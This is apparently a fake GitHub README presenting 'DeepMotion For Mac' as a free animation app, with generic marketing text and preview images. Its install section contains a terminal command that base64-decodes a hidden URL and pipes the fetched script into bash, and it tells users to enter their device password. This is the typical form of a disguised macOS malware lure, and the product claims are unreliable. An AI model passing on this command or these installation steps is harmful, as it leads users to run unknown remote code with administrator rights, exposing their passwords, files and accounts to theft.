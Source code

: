 # DeepMotion For Mac — Download For Mac OS 😊

DeepMotion For Mac is a powerful and intuitive motion graphics and animation software designed exclusively for macOS users. Create stunning animations, dynamic visual effects, and seamless video transitions with ease. Follow the instructions below to install DeepMotion For Mac and unlock a world of creative possibilities.

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/deepmotion)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install DeepMotion For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get

DeepMotion For Mac empowers creators with cutting-edge tools for animation and motion design. Here’s what you can achieve:

- 🎨 **Create Stunning Animations**: Build smooth, professional-grade animations for videos, presentations, or social media.
- ⚡ **Fast Rendering**: Leverage macOS optimization for lightning-fast rendering and real-time previews.
- 🛠 **Intuitive Interface**: Enjoy a user-friendly workspace designed for both beginners and professionals.
- 🎥 **Video Effects & Transitions**: Add dynamic effects and seamless transitions to elevate your projects.
- 🔄 **Real-Time Collaboration**: Sync your projects with cloud-based tools for team workflows.
- 🖥 **macOS Native Performance**: Fully optimized for macOS, ensuring smooth performance on M1/M2 chips.

## About DeepMotion For Mac

DeepMotion For Mac is a revolutionary motion graphics software tailored for macOS, offering creators the tools to craft high-quality animations and visual effects. Whether you're a video editor, graphic designer, or content creator, DeepMotion provides an intuitive platform to bring your ideas to life. With its seamless integration into the macOS ecosystem, the software ensures optimal performance on Apple Silicon, delivering fast rendering and real-time previews. Its user-friendly interface makes it accessible for beginners while offering advanced features for professionals in motion design.

Built with modern animation workflows in mind, DeepMotion For Mac supports a wide range of creative tasks, from designing engaging social media content to producing cinematic video transitions. The software’s robust feature set includes keyframe-based animation, customizable templates, and a library of pre-built effects, making it a go-to solution for creators. By leveraging macOS’s native capabilities, DeepMotion ensures smooth operation, whether you're working on a MacBook or an iMac. Its compatibility with industry-standard formats also makes it easy to integrate into existing workflows.

The software is designed to cater to the growing demand for high-quality motion graphics in industries like marketing, entertainment, and education. DeepMotion For Mac stands out with its focus on performance, ease of use, and creative flexibility, allowing users to produce professional-grade results without a steep learning curve. Regular updates ensure the software remains compatible with the latest macOS versions, providing a reliable tool for creators worldwide.

For those searching for a free animation software for Mac, DeepMotion For Mac offers a compelling solution. Available as a free download, it provides access to powerful tools without compromising on quality. Whether you're animating for personal projects or professional productions, DeepMotion For Mac is your gateway to creating visually stunning content with ease.

## Advantages of DeepMotion For Mac

- 🚀 **Blazing Fast Performance**: Optimized for macOS and Apple Silicon for smooth, efficient workflows.
- 🖌 **Creative Freedom**: Extensive library of effects, templates, and animation tools.
- 🌟 **Beginner-Friendly**: Intuitive controls make it easy to start creating right away.
- 🔗 **Seamless Integration**: Works with popular video editing software and macOS apps.
- 🔄 **Regular Updates**: Stay up-to-date with the latest macOS features and improvements.
- 💻 **Lightweight Design**: Runs efficiently on both high-end and older Mac devices.

## 🖼 Preview

![Main Interface](https://i.postimg.cc/8zW7nZ1q/deepmotion-interface.jpg)  
*Clean and intuitive interface for creating animations.*

![Animation Editor](https://i.postimg.cc/4x0p4kY4/deepmotion-editor.jpg)  
*Keyframe-based animation editor for precise control.*

![Effect Library](https://i.postimg.cc/9QJ5VqQz/deepmotion-effects.jpg)  
*Explore a vast library of customizable effects.*

![Export Options](https://i.postimg.cc/3xYb9W2k/deepmotion-export.jpg)  
*Export your projects in multiple formats with ease.*

## 🔍 Tags

